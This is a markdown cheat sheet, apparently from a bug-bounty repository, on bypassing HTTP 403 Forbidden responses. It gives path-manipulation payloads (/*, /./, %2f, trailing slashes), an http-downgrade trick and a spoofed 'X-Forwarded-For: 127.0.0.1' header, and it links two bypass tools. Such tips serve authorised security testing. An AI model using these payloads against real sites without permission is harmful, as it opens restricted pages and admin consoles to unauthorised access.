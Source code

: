 ## 403 Bypass
I am sharing all this tips and techniques from my own personal experience there no official references for that

### Directory Based
If you see directory with no slash at end then do these acts there
```
site.com/secret => 403
site.com/secret/* => 200
site.com/secret/./ => 200
```
### File Base
If you see file without any slash at end then do these acts there
```
site.com/secret.txt => 403
site.com/secret.txt/ => 200
site.com/%2f/secret.txt/ => 200
```
### Protocol Base
Well, sound wired but check out the example for better understanding
```
https://site.com/secret => 403
http://site.com/secret => 200
```
## Payloads
```
/
/*
/%2f/
/./
./.
/*/
```
### Header
[https://observationsinsecurity.com/2020/08/09/bypassing-403-to-get-access-to-an-admin-console-endpoints/](https://observationsinsecurity.com/2020/08/09/bypassing-403-to-get-access-to-an-admin-console-endpoints/)
```
X-Forwarded-For: 127.0.0.1
```

### Tools
Here is a Tool I found on twitter.
* [https://github.com/yunemse48/403bypasser](https://github.com/yunemse48/403bypasser)
* [https://github.com/Dheerajmadhukar/4-ZERO-3](https://github.com/Dheerajmadhukar/4-ZERO-3)

## Proof Of Concept
Well Always look for some references or proof of concept if someone sharing any tips so you may confirm you are not wasting your time at all.
I have some poc video on my YouTube channel for 403 and other Improper access control bugs with those methods. You can check them

YouTube: [Mehedi Hasan Remon](https://www.youtube.com/channel/UCF_yxU7acxUojiGiOAMafQQ/videos?view_as=subscriber)

Author:[@remonsec](https://twitter.com/remonsec)
       [@KathanP19](https://twitter.com/KathanP19)
